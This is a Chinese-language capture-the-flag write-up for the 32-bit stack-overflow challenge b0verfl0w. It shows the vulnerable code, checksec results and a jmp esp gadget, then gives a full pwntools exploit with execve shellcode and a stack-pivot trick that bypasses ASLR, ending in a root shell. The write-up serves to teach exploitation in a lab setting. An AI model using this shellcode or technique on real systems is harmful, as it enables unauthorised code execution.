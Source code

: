 ```yaml
---
layout: post
title: pwn XCTF2016 b0verfl0w
excerpt: "LCTF2016 pwn100 wirteup"
categories: [Writeup]
comments: true
---
```


这个题是开启aslr的,所以`echo 2 >/proc/sys/kernel/randomize_va_space`

ida打开发现栈溢出,offset为`0x20+4 = 36`
```c
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```
checksec
```python
>>> from pwn import *
>>> print ELF('b0verfl0w').checksec()
[*] '/root/sploitfun/xctf2016/b0verfl0w'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
系统开启了ASLR，因此栈地址是随机的，我们无法预测。解决办法是利用相对地址即可

leave和ret含义如下
```x86asm
leave:mov esp,ebp;
  pop ebp;

ret :  pop eip
```
可知,当执行到ret的时候,esp刚好指向ret地址的下一个地址；而当我们找到如jmp esp的gadget并覆盖到return addr地址时，就可以跳到下一个地址去执行这个gadget地址后面的指令。

通过`ROPgadget --binary b0verfl0w | grep 'jmp esp'`找到jump esp (由于运行完shellcode之后不用再继续往下运行,所以带不带ret都行)
```x86asm
0x08048502 : and al, 0xc3 ; jmp esp
0x08048501 : in al, dx ; and al, 0xc3 ; jmp esp
0x080484ff : in eax, 0x83 ; in al, dx ; and al, 0xc3 ; jmp esp
0x08048504 : jmp esp

```
最终的exp
```python
from pwn import *

sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"  # 21byte

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')      #把esp指针减0x28,并跳转到esp中(运用相对的地址绕过了aslr)
jmp_esp = 0x08048504
payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp   #offset = 36
sh.sendline(payload)
sh.interactive()
```
运行结果
```
python exp.py 
[+] Starting local process './b0verfl0w': pid 28600
[*] Switching to interactive mode

======================

Welcome to X-CTF 2016!

======================
What's your name?
Hello 1慎酫h//shh/bin\x89惆
                           蛝bbbbbbbbbbbbbbb\x04\x85\x0\x83
.$                                                        id
uid=0(root) gid=0(root) groups=0(root)

```